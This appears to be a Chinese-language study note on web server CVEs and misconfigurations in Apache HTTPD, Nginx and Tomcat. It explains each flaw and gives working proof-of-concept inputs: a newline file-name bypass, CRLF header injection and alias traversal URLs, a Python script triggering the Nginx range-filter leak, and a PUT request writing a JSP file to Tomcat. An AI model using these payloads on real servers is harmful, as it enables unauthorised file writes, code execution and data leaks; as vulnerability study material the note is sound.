

# CVE

## apache

Apache HTTPD 是一个广泛使用的 HTTP 服务器，可以通过 mod_php 模块来运行 PHP 网页。

### 换行解析漏洞

在其 2.4.0 到 2.4.29 版本中存在一个解析漏洞，当文件名以 `1.php\x0A` 结尾时，该文件会被按照 PHP 文件进行解析，这使得攻击者可以绕过服务器的一些安全策略。

- 漏洞编号：CVE-2017-15715
- 影响版本：Apache 2.4.10 -2.4.29
- 漏洞利用：文件上传
- PoC: `.php%0a`



## nginx

Nginx 是一款 Web 服务器，可以作为反向代理、负载均衡、邮件代理、HTTP 缓存等。

### 配置文件错误

<span style="font-size: 23px;">**Misconfiguration Vulnerabilities**</span>

<span style="font-size: 19px;">**1.CRLF 注入漏洞**</span>

nginx 会将 `$uri` 进行解码，导致传入`%0d%0a` 即可引入换行符，造成 CRLF 注入漏洞。

```txt
location / {
    return 302 https://$host$uri;
}
```
**PoC**：`http://your-ip:8080/%0d%0aSet-Cookie:%20a=1`，可注入 Set-Cookie 头。

<span style="font-size: 19px;">**2.目录穿越漏洞**</span>

Nginx 在配置别名（Alias）的时候，如果忘记加 /，将造成一个目录穿越漏洞。

```txt
location /files {
    alias /home/;
}
```

**PoC**: `http://your-ip:8081/files../` ，成功穿越到根目录.

<span style="font-size: 19px;">**3.add_header 被覆盖**</span>

Nginx 配置文件子块（server、location、if）中的 add_header，将会覆盖父块中的 add_header 添加的 HTTP 头，造成一些安全隐患。

如下列代码，整站（父块中）添加了 CSP 头：

```txt
add_header Content-Security-Policy "default-src 'self'";
add_header X-Frame-Options DENY;

location = /test1 {
    rewrite ^(.*)$ /xss.html break;
}

location = /test2 {
    add_header X-Content-Type-Options nosniff;
    rewrite ^(.*)$ /xss.html break;
}
```
但 `/test2` 的 location 中又添加了 `X-Content-Type-Options` 头，导致父块中的 `add_header` **全部失效**。

### 越界读取缓存漏洞

Nginx 版本从 0.5.6 到 1.13.2 的 **nginx range filter** 模块存在整数溢出漏洞，当遇到特殊构造的请求时，会导致泄露敏感信息。

如果请求中包含 Range 头，Nginx 会根据请求中提供的 start 和 end 位置，返回指定长度的内容。然而，如果 start 和 end 位置为负数，例如 (-600, -9223372036854774591)，则可能读取到负位置的数据。如果这次请求又命中了缓存文件，则可能就可以读取到缓存文件中位于"HTTP 返回包体"前的"文件头"、"HTTP 返回包头"等内容。

- 漏洞编号：CVE-2017-7529
- 影响版本：0.5.6 - 1.13.2
- 漏洞危害：敏感信息泄露

**PoC**

*poc.py*

```python
#!/usr/bin/env python
import sys
import requests

if len(sys.argv) < 2:
    print("%s url" % (sys.argv[0]))
    print("eg: python %s http://your-ip:8080/" % (sys.argv[0]))
    sys.exit()

headers = {
    'User-Agent': "Mozilla/5.0 (Windows NT 10.0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/42.0.2311.135 Safari/537.36 Edge/12.10240"
}
offset = 605
url = sys.argv[1]
file_len = len(requests.get(url, headers=headers).content)
n = file_len + offset
headers['Range'] = "bytes=-%d,-%d" % (
    n, 0x8000000000000000 - n)

r = requests.get(url, headers=headers)
print(r.text)
```

## tomcat

### PUT方法任意写文件漏洞

漏洞说明：当 Tomcat 运行在 Windows 主机上，且启用了 HTTP PUT 请求方法（例如，将 **readonly** 初始化参数由默认值设置为 **false**），攻击者将有可能可通过精心构造的攻击请求向服务器上传包含任意代码的 JSP 文件。之后，JSP 文件中的代码将能被
服务器执行。

- 漏洞编号： CVE-2017-12615
- 影响版本： Apache Tomcat 7.0.0 to 7.0.81

```xml
<init-param>
    <param-name>readonly</param-name>
    <param-value>false</param-value>
</init-param>
```
**PoC**

```txt
PUT /1.jsp/ HTTP/1.1
Host: your-ip:8080
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 5

<%
	out.print("hello hacker");
%>
```


